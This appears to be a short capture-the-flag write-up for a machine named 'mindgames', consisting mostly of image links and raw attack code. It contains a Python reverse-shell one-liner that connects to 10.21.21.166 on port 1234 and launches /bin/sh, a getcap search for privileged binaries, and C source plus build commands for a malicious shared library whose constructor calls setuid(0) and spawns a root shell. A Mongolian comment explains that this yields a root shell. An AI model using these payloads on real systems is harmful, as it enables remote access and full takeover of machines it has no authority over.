









# mindgames
1. 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.21.166",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

getcap -r / 2>/dev/null

#include <unistd.h>

__attrubute__((constructor))
static void init(){
        setuid(0);
        execl("/bin/sh","sh",NULL);
}
 gcc -fpic -o a.o -c engine.c && gcc -shared -o engine.so -lcrypto a.o
 програм/библиотек дуудагдсан даруй root шелл ажиллуулах гэж ойлгож болно

